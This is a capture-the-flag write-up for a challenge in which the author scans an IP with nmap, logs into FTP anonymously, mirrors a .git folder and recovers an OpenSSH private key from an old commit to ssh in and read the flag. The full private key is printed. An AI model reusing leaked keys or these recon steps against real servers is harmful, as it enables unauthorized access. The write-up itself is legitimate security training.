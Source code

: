 # Time Traveller's Git (Part 1)

> You are a time traveler who stumbled upon an ancient Git repository containing valuable data from a long-gone era. However, the repository seems to have some hidden secrets and potential vulnerabilities in its history.  
143.110.180.89

The challenge gives us an ip address, a domain and port.
Running a quick nmap scan on the ip reveal it has a ftp server running on it.
```sh
[ssk@arch kic]$ nmap -F 143.110.180.89
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-30 16:42 IST
Nmap scan report for 143.110.180.89
Host is up (@.14s latency).
Not shown: 97 filtered tcp ports (no-response)
PORT    STATE   SERVICE
21/tcp  open    ftp
80/tcp  closed  http
443/tcp closed  https

Nmap done: 1 IP address (1 host up) scanned in 5.65 seconds
```

We can anonymously login into the ftp server using `anonymous` as the username and password.
The server has a `login.html` file and a `.git` folder. I cloned the complete server to further examine the files.
```sh
[ssk@arch kic]$ ftp 143.110.180.89
Connected to 143.110.180.89.
220 (vsFTPd 3.0.5)
Name (143.110.180.89:ssk): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
dr-xr-xr-x  1    1000   1000    4096 Jul 25 10:31 .
dr-xr-xr-x  1    1000   1000    4096 Jul 25 10:31 ..
drwxrwxr-x  8    0      0       4096 Apr 09 18:58 .git
-rw-rw-r--  1    0      0       514  Apr 09 18:58 login.html
226 Directory send OK.
ftp> quit
221 Goodbye.
[ssk@arch kic]$ wget -r --no-passive --no-parent --user=anonymous --password=anonymous ftp://143.110.180.89
```
Using git status allows us to see that there are two older commits also. On switching to the oldest commit, the `index.html` file has a OpenSSH private key inside it.

Output of `git log`:
```
commit 00231aa51594c4d44631ce9237255fe779afa72c (HEAD -> main, origin/main, origin/HEAD)
Author: 4dity4k <k2000aditya@yahoo.com>
Date:   Mon Apr 10 00:25:47 2023 +0530

    Smart cookie

commit b5488e6d7b3e27949d825292fa992562333c1de9
Author: 4dity4k <k2000aditya@yahoo.com>
Date:   Sun Apr 9 23:43:58 2023 +0530

    Latest and fresh

commit 5a496dbebbce1585698634e5348703b74e7ac781
Author: 4dity4k <k2000aditya@yahoo.com>
Date:   Sun Apr 9 23:20:43 2023 +0530

    My first web application
```

```sh
[ssk@arch back]$ git checkout 5a496dbebbce1585698634e5348703b74e7ac781
Note: switching to '5a496dbebbce1585698634e5348703b74e7ac781'.

You are in 'detached HEAD' state. You can look around, make experimental
changes and commit them, and you can discard any commits you make in this
state without impacting any branches by switching back to a branch.

If you want to create a new branch to retain commits you create, you may
do so (now or later) by using -c with the switch command. Example:

  git switch -c <new-branch-name>

Or undo this operation with:

  git switch -

Turn off this advice by setting config variable advice.detachedHead to false

HEAD is now at 5a496db My first web application
[ssk@arch back]$ cat login.html 
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Login</title>
</head>
<body>
    <h1>Login</h1>
    <form method="POST">
        <label for="username">Username:</label>
        <input type="text" name="username" id="username" required>
        <br><br>
        <label for="password">Password:</label>
        <input type="password" name="password" id="password" required>
        <br><br>
        <button type="submit">Login</button>
    </form>
</body>
</html>
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----```
We can use extract the private key and use it to ssh into the server containing the flag.
```sh
[ssk@arch back]$ sudo ssh charlie@0.cloud.chals.io -p 31080 -i private_key
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.4.0-155-generic x86_64)

* Documentation:    https://help.ubuntu.com
* Management:       https://landscape.canonical.com
* Support:          https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

$ ls
user. txt
$ cat user.txt
KPMG_CTF{324b7e52953f62f1624fb64a2e8202e4}
$ exit
Connection to 8.cloud.chals.io closed.
```